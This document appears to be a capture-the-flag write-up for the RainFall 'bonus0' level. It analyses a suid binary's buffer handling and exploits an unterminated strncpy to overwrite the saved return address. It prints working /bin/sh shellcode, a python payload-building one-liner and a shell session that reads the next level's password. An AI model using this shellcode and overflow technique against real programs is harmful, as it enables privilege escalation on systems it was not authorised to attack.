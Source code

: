 # Bonus0

## Solution

* There is one file in our home, ```bonus0```, belonging to ```bonus1``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* main function allocates on its stack a ```0x2a``` bytes buffer (that we will name ```final_buf```) and passes it to ```pp``` function
	* ```pp``` function allocates two ```0x14 = 20``` bytes buffers on its stack (```buf1``` anf ```buf2```). It is important to note that ```buf2``` and ```buf1``` are contiguous
	* ```p``` function is called twice by ```pp```, with succesively ```buf2``` and ```buf1``` in parameter
	* ```p``` reads on the stdin with a limit of ```0x1000 = 4096``` bytes
	* ```p``` uses ```strchr``` to find the first occurence of ```\n``` and puts ```\0``` instead. This section is not protected
	* it then uses ```strncpy``` to copy the content of what has been read in the buffer passed in argument, with a limit of ```0x14``` chars
	* the content of ```buf2``` is then copied in ```final_buf```
	* a space is put in place of final ```\0``` and ```strcat``` is used to concatenate the string with the content of ```buf1```
	* ```main``` finally prints the final_buf

* What we did with all of that:

	* our goal was to use the ```final_buf``` to write an address of a shellcode in place of the former ```eip``` address
	* the offset between the beginning of ```final_buf``` and the location of former ```eip``` address is ```0x36 = 54``` bytes : it means that we wanted to write the address of our shellcode ```54``` bytes after the beginning of ```final_buf```
	* in theory we could only write ```40``` bytes at the end as only ```20``` bytes are copied in respectively ```buf2``` and ```buf1``` after call to ```read```
	* but ```buf2``` and ```buf1``` are contiguous in memory and the content of call to ```read``` is copied with ```strncpy```: if there is no ```\0``` in the first ```20``` bytes, the copy won't be terminated
	* for instance, if ```buf1``` is not terminated, ```final_buf``` will be as follow: ```buf1+buf2 buf2```, that is to say potentially ```59``` bytes
	* we decided to store the shell code in an environment variable:
	```sh
	export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"`
	```
	* the we got the ```SHELLCODE``` variable approximative address thanks to ```env.c``` program (see in the ressources)
	```
	bonus0@RainFall:~$ gcc -fno-stack-protector -z execstack -o /var/crash/env /var/crash/env.c
	bonus0@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4ce
	```
	* to be able to handle the two successive calls to ```read``` with only one file, we wrote first ```0x1000 = 4096``` bytes in a file (the size of the ```read``` buffer), followed by padding bytes and finally the approximative address of our shellcode:
	```sh
	python -c "print('A' * 4095 + '\n' + 'B' * 14 + 'def4ffbf'.decode('hex') + 'C' + '\n')" > /var/crash/bns0
	```
	* we can now exploit the vulnerability of ```bonus0``` file:
	```
	bonus0@RainFall:~$ cat /var/crash/bns0 - | ./bonus0
	-
	-
	AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBB����C BBBBBBBBBBBBBB����C
	cd ../bonus1; cat .pass
	cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
	```